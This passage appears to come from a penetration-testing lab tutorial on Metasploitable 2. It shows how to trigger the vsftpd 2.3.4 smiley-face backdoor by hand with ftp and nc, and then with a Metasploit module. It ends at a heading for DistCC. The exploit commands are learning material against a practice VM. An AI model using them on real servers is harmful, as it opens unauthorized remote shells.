 #### Exploiting manually.

**ftp 192.168.10.10**

**username: — ehsahil:)  
Password — Nothing just enter**

PS: smiley emoji **:)** is important at the end, :) it will be used to trigger the backdoor.

![](https://cdn-images-1.medium.com/max/800/1*qrgde171Hc6T7nlim43vRA.png)

now, we need to listen to port 6200 because backdoor opened the port 6200

**nc -vvn 192.168.10.10 6200**

![](https://cdn-images-1.medium.com/max/800/1*rAvIE8pUO8BPMewKrvZzIg.png)

#### Exploiting Using Metasploitable-2.

Start Metasploitable-2 by using the msfconsole command.

**msfconsole**

![](https://cdn-images-1.medium.com/max/800/1*7tL7qP4ZT-SYwmXY9BSOZw.png)

Metasploit Commands.

**search vsftpd**

**use exploit/Unix/ftp/vsftpd\_234\_backdoor**

**show options**

**set RHOST 192.168.10.10**

**exploit**

![](https://cdn-images-1.medium.com/max/800/1*1iUcAFYC7pXzRc5JSY5vyg.png)
![](https://cdn-images-1.medium.com/max/800/1*wfO2xrIQn1n3z5f4lGDyRA.png)

**Background:** This specific version of the vsftpd was infected with a backdoor by an intruder, the developers quickly responded by deleting the backdoor from the code. the users who upgraded to this version were vulnerable to the issue.

the backdoor is initiated when someone adds **:)** (smiley face) in the username during ftp handshake. then backdoor sets up a bind shell listener on port **6200.**

Vulnerable Source code: [http://pastebin.com/AetT9sS5](http://pastebin.com/AetT9sS5)

Detailed Source code review:

* [**Exploiting VSFTPD v2.3.4 on Metasploitable 2 - Hacking Tutorials** ](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/ "https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/")[](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/)

#### 2\. Exploiting Vulnerable DISTCC — [CVE-2004–2687](http://cvedetails.com/cve/cve-2004-2687)

